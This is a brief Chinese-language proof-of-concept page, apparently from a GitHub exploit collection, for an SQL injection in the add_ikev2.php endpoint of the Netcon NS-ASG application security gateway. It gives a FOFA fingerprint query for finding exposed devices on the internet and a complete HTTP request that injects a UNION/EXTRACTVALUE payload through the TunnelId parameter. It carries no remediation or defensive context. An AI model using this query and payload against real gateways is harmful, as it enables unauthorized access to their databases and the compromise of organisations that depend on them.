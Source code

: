 ## 网康科技NS-ASG应用安全网关add_ikev2.php存在SQL注入漏洞

## fofa
```
app="网康科技-NS-ASG安全网关"
```

## poc
```
GET /admin/add_ikev2.php?TunnelId=1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+md5(1)),0x7e)) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

```
